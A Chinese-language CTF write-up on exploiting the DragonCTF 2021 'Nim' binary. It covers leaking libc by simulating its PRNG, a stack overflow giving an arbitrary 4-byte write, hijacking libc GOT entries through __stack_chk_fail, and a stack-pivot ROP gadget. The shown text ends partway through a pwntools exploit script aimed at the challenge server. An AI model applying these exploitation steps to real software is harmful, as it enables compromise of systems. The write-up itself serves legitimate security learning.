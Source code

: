 # DragonCTF2021-Nim


# Nim

周末和Nu1L的师傅一起打了DragonCTF，题目质量很高，被师傅们带了。

Nim实现了尼姆游戏（Nim），玩家和Dealer（电脑）轮流从堆中取石头，堆的数目大于等于8，每次只能从一个堆中取，取的数量要大于0。谁将最后一块取出即可赢得游戏。

程序有两个漏洞点可以利用：

- 使用rand函数地址，自己实现的伪随机数生成函数
- 堆的数量由玩家指定造成的栈溢出

程序开启了所有的保护，这代表着有Canary。
栈溢出很容易都能看出来，但是我并没有重视rand函数。在分析的时候，我发现这个程序是由c & c++混写的，所以我尝试用异常处理去绕过canary保护。实际的利用并不是这样。

首先，第一个堆块的石头数量为`rand & 0x7fffffff`，可以通过模拟其随机数生成，得到rand函数的地址从而leak libc。

第二点是，game程序有八个参数，这意味着有两个参数会通过栈进行传递。二栈溢出可以对它们进行修改。注意到在游戏结束后，我们的分数如果超过记录，则会将分数（int），放到第八个参数指向的位置。Yes，我们可以任意地址写四字节数据。

之后，会触发``__stack_chk_fail`，进一步执行`__fortify_fail` -> `__libc_message`，`__libc_message`中通过libc@got调用了三个函数`strchrnul`， `strlen` 和 `mempcpy`。libc@got可写，所以我们通过任意地址写四字节即可劫持got表。

继续分析，此时栈的0x2a8附近有我们的在游戏开始输入的name，再向下就是堆中的石头数目。通过gadget回到name中，设置堆中的石头数目为ROP，以name为跳板，执行到ROP。

```assembly
0x0000000000089d27: add rsp, 0x2c0; pop rbp; pop r12; pop r13; ret; 
```

在leak libc之后，我们不得不面对Nim游戏。满足下面条件则先手必败：
$$a_1\oplus a_2\oplus a_3...\oplus a_n = 0$$
通过模拟随机数生成函数，可以预测出Dealer的所有堆块。之后只要设置我们的堆块，使所有堆块石子数目异或和为0，则Dealer面对的就是必败状态。它不得不取出石子，这样异或和改变，我们只要取出异或和数量的石子数，就能一直将必败状态留给Dealer。从而使分数到达我们的目标值。

```python
from pwn import *
leak = lambda name,addr: log.success('{0} ---> {1}'.format(name, hex(addr)))

binary = './nim'
libc = './libc.so'
context.terminal = ['tmux', 'splitw', '-h']
context(binary = binary, log_level='info')
# p = process(binary)
p = remote('nim.hackable.software',1337)
elf = ELF(binary, checksec=False)
libc = ELF(libc, checksec=False)

const_num1 = 0x7CC216571FEE6FB
const_num2 = 0xFFFFFFFFFFFFFA3

class RandSim:
    seed = 0
    def __init__(self):
        self.seed = 0
    def set_seed(self, seed):
        self.seed = seed
    
    def get_next(self):
        val = self.seed & 0x7fffffff
        self.seed = self.rand_sim(self.seed)    
        return val          
                
    def rand_sim(self,s):
        val = 0
        min = 0x7CC216571FEE6FB
```